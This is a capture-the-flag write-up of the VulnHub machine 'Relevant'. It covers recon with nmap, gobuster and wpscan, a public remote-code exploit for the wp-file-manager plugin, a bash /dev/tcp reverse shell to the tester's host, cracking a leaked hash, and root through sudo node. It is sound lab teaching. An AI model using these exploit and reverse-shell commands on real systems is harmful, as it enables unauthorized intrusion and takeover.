 ```yaml
---
title: Vulnhub - Relevant
description: My writeup on Relevant box.
categories:
 - vulnhub
tags: vulnhub wordpress node crackstation
---
```


![](https://c-link.com/wp-content/uploads/2018/12/JCT-and-Relevant-Events.jpg)

You can find the machine there > [Relevant](https://www.vulnhub.com/entry/relevant-1,568/){:target="_blank"}

## Summary

We start by finding a wordpress site and wpscan reveals a vulnerable plugin, this gives us a shell as www-data. First privesc is all about an exposed hash and final one is about node exploitation. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-07 12:36 EEST
Nmap scan report for relevant.zte.com.cn (192.168.1.15)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:1E:5C:B7 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.41 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-07 12:37 EEST
Nmap scan report for relevant.zte.com.cn (192.168.1.15)
Host is up (0.00087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Database Error
```

Let's start the enumeration on port 80, once we visit the website we can see a "database error":

![](https://i.imgur.com/Y78bExk.png)

A `gobuster` scan shows us that is a wordpress site! But nothing works.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/wp-content (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/readme.html (Status: 200)
/wp-admin (Status: 301)
```

If we run a `wpscan` scan we can see that can't detect the wordpress site or the plugins:

```
$ wpscan --no-banner --url http://$ip/ -e ap,u

Scan Aborted: The remote website is up, but does not seem to be running WordPress.
````

After digging into the help page i found the solution:

```
$ wpscan --no-banner --url http://$ip/ --force --plugins-detection aggressive -e ap,u
[+] URL: http://192.168.1.15/ [192.168.1.15]
[+] Started: Wed Oct  7 12:45:24 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.18.0 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://192.168.1.15/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.1.15/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:00 <========================================================================================================> (463 / 463) 100.00% Time: 00:00:00
[+] WordPress version 5.5.1 identified (Latest, released on 2020-09-01).
 | Found By: Style Etag (Aggressive Detection)
 |  - http://192.168.1.15/wp-admin/load-styles.php, Match: '5.5.1'
 | Confirmed By: Unique Fingerprinting (Aggressive Detection)
 |  - http://192.168.1.15/wp-admin/js/common.min.js md5sum is d882c62db3212caee8464d76f47eae4a

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Aggressive Methods)
<=====================================================================================================> (89276 / 89276) 100.00% Time: 00:02:03
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://192.168.1.15/wp-content/plugins/akismet/
 | Latest Version: 4.1.6 (up to date)
 | Last Updated: 2020-08-10T16:49:00.000Z
 | Readme: http://192.168.1.15/wp-content/plugins/akismet/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.1.6 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/akismet/readme.txt

[+] wp-file-manager
 | Location: http://192.168.1.15/wp-content/plugins/wp-file-manager/
 | Last Updated: 2020-09-14T19:30:00.000Z
 | Readme: http://192.168.1.15/wp-content/plugins/wp-file-manager/readme.txt
 | [!] The version is out of date, the latest version is 6.9
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/wp-file-manager/, status: 200
 |
 | Version: 6.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.1.15/wp-content/plugins/wp-file-manager/readme.txt

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] No Users Found.
```

## Shell as www-data

`wp-file-manager` seems vulnerable, after searching on google for possible exploits i found a RCE one! [exploit](https://github.com/w4fz5uck5/wp-file-manager-0day){:target="_blank"}

Let's download it & run it:

```
$ wget -q https://raw.githubusercontent.com/w4fz5uck5/wp-file-manager-0day/master/elFinder.py
$ python elFinder.py http://$ip/
Usage: elFinder.py http://localhost
URL Shell: %s/wp-content/plugins/wp-file-manager/lib/files/x.php?cmd=<CMD>
$ whoami
www-data
```

Perfect, this shell seems unstable so let's spawn a normal reverse shell:

```
bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'
```

Let's URL encode it:

```
$ urlencode "bash -c 'bash -i >& /dev/tcp/192.168.1.14/5555 0>&1'"
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.14%2F5555%200%3E%261%27
```

& We have shell:

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@relevant:~/html/wp-content/plugins/wp-file-manager/lib/files$ python3 -c 'import pty; pty.spawn("/bin/bash")'                
www-data@relevant:~/html/wp-content/plugins/wp-file-manager/lib/files$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as news

This privesc is kinda tricky, user "h4x0r" has a hidden directory named `...`:

```
www-data@relevant:/home/h4x0r$ ls -la
total 28
drwxr-xr-x 4 h4x0r h4x0r 4096 Sep 21 20:16 .
drwxr-xr-x 5 root  root  4096 Sep 21 19:50 ..
drwxr-xr-x 2 h4x0r h4x0r 4096 Sep 21 20:15 ... <---
lrwxrwxrwx 1 h4x0r h4x0r    9 Sep 21 20:16 .bash_history -> /dev/null
-rw-r--r-- 1 h4x0r h4x0r  220 Sep 21 19:50 .bash_logout
-rw-r--r-- 1 h4x0r h4x0r 3771 Sep 21 19:50 .bashrc
drwxrwxr-x 3 h4x0r h4x0r 4096 Sep 21 20:06 .local
-rw-r--r-- 1 h4x0r h4x0r  807 Sep 21 19:50 .profile
```

Into this directory, a `note.txt` exists:

```
www-data@relevant:/home/h4x0r/...$ cat note.txt
news : 4C7EB317A4F4322C325165B4217C436D6E0FA3F1
```

Let's use [crackstation](https://crackstation.net/){:target="_blank"} to crack it. We have the password `backdoorlover` Now we can switch to user `news`:

```
www-data@relevant:/home/h4x0r/...$ su - news
Password: backdoorlover

news@relevant:/home/h4x0r/...$ whoami;id
news
uid=9(news) gid=9(news) groups=9(news)
```

## Shell as root

Checking `sudo -l` we can see that we can run `node` as root:

```
news@relevant:/home/h4x0r/...$ sudo -l
[sudo] password for news: backdoorlover

Matching Defaults entries for news on relevant:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User news may run the following commands on relevant:
    (ALL : ALL) /usr/bin/node
```

[gtfobins](https://gtfobins.github.io/gtfobins/node/#sudo){:target="_blank"} page says how to exploit it:

```
news@relevant:/home/h4x0r/...$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Fun box! :smile:
